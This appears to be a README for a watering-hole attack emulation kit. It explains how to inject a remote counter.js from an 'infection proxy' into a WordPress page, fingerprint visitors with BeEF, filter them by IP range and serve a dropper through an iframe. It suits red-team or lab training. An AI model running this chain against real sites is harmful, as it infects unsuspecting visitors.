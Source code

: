 On the external benign web server (where the victim will browse to, but will be infected with a watering hole):

```bash
sudo bash wordpress_setup.sh
python3 redirection.py /srv/www/wordpress/index.php http://infectionproxy/counter.js # {Infection Proxy URL including http:// + path to counter.js}
```

The setup and cleanup scripts are what they say on the tin: they will setup or teardown a wordpress site with default and wildly insecure credentials. This is all they do, to allow a user to further set up a watering hole attack as they see fit.

**The prep and cleanup scripts are expected to be run at superuser privileges;** these scripts create and drop databases in SQL, create public directories, and restart system services. Wordpress does not like being run at superuser privileges, so `sudo` is frequently used to _deescalate_ to user-level commands during the wordpress install proper.

The redirection script is intended to mimic the result of a site compromised by an injection attack - it appends a JS redirection script that points to a remote file (presumably counter.js) to be the src of a `script` tag. In conjunction, counter.js is expected to be placed on an infection proxy. When executing, write the redirection script to point to counter on the infection proxy host. **You must also edit counter.js when placing it on the infection proxy to redirect the user to where you will be checking their IP addresses - presumed to be the infection proxy host itself.**

The fingerprinting script installs the BEEF framework, reviews necessary config changes, and prepares user to run beef on local machine in anticipation of victim visit.

The beef setup script confirms that the user has changed BEEF's default credentials and reminds them to alter the appropriate IP information in their IP range script.

The ip range script creates a string of php code and places it in a php file on a separate wordpress site - the one that the client will be redirected to. It will determine if the client is in the range of IP addresses that are of further interest.

The flash prep script copies a string of iframe HTML to a file of your choosing, presumably the index page of your malicious website, and copies a dropper file to the root of your web server that will be downloaded when a user clicks the link inside the iframe.

Both shell scripts are run without argument.

`ip_range.py`, `redirection.py` and `flash_prep.py` scripts expect arguments. All python scripts accept the --help flag.

## Package / OS Requirements

These scripts were developed on, and are expected to be run on, a Kali Linux box, which is a Debian-based distribution. Service/system calls and package manager examples may differ between distributions.

These scripts expect default Kali installations of Apache web server and SQL(MariaDB). If you don't have them or they've been pruned from your Kali install, get them back with

```bash
apt install apache2
apt install default-mysql-server
```
